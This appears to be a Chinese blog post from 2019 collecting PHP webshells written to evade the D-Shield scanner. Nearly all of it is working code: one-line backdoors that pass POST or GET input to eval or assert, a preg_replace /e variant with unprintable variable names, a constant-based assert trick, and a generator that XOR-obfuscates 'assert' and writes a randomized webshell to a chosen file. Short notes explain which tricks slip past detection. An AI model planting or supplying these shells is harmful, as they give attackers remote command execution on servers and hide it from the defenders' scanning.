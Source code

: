 ```yaml
---
title: "PHP Webshell Bypass"
date: 2019-08-12T21:10:02+08:00
lastmod: 2019-08-12T21:57:02+08:00
draft: false
tags: ['bypass']
categories: ['code']
comment: true
---
```


准备写一个长期更新的免杀webshell总结

<!--more-->

2019-08-15

https://evi1.cn/post/bypass-shell/

```php
<?php
$a = $_POST['cmd'];
$var = "phpnb {${eval($a)}}";
```

2019-08-12

![20190812215816](https://y4er.com/img/uploads/20190812215816.png)

2019-08-09

疯狂免杀

![20190809144327](https://y4er.com/img/uploads/20190809144327.png)

2019-08-07

```php
<?php
function a()
{
    return '' + @$_POST['a'];
}

eval(a());
```

再来一个三元表达式的

![20190807111622](https://y4er.com/img/uploads/20190807111622.png)

2019-08-06

常量过D盾

https://secquan.org/Notes/1069997

```php
<?php
sprintf("123");
sprintf("123");
sprintf("123");
$a=$_GET['a'];
define("Test", "$a",true);
assert(TesT);
?>
```



另一种思路反序列化过D盾，代码自己写

再一种思路 创建对象重复定义变量成员过D盾

2019-05-30

ASCII码显示不出来的字符做变量过D盾

<https://github.com/th1k404/unishell>

<http://ascii.911cha.com/>

```php
<?php
if($_GET['␄']){
    $␄=$_GET['␄'];
    @preg_replace("/abcde/e",$␄, "abcdefg");
}
?>
```

可以自己修改

2019-05-21

<https://github.com/yzddmr6/webshell-venom>

利用随机异或无限免杀d盾

蚁剑插件版请移步:

<https://github.com/yzddmr6/as_webshell_venom>

```php
<?php
//code by Mr6
error_reporting(0);
	function randomkeys($length)   
{   
   $pattern = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        $key[$i]= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
}   
	function randname($length)   
{   
   $pattern = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';  
    for($i=0;$i<$length;$i++)   
    {   
        @$key.= $pattern{mt_rand(0,strlen($pattern)-1)};    //生成php随机数   
    }   
    return $key;   
} 
	$str=randomkeys(6); 
	$bname=randname(4);
	$lname=strrev(strtolower($bname));
	$str2="assert";
			echo "<?php \n";
			echo "header('HTTP/1.1 404');\n";
			echo "class  ".$bname."{ public \$c='';\nfunction __destruct(){\n";
	for ($i=0;$i<6;$i++)
	{
		$name="_".$i;
		$str3[$i]=bin2hex($str[$i] ^$str2[$i]);
		echo "$"."$name=";
	echo "'".$str[$i]."'"."^"."\"\\x".$str3[$i]."\";\n";
	}
	$aa='$db=$_0.$_1.$_2.$_3.$_4.$_5;';
	echo $aa;
	echo "\n";
	echo '@$db ("$this->c");}}';
	echo "\n";
	echo "\${$lname}=new {$bname}();\n";
	echo "@\${$lname}->c=\$_POST['Mr6'];\n";
	echo "?>\n";
	@$file=$_GET['file'];
	$html = ob_get_contents();
	if (isset($file)){
	if(file_put_contents($file,$html))
	echo "\n\n\n".$file."   save success!";}
	else {echo "Please input the file name like '?file=xxx.txt'";}
	?>
```



2019-05-11

```php
<?php
function a(){
	return $a=$_POST['1'];
}
@assert(a());
?>
```

![](https://y4er.com/img/uploads/20190511171755.png)

```php
<?php
$value=$key = "a";
foreach($_POST as $key=>$value){
	assert($value);
}
```
![](https://y4er.com/img/uploads/20190511183608.png)
**可以发现的规律是当已经定义的变量和循环的变量名一致时，D盾就不是那么敏感了**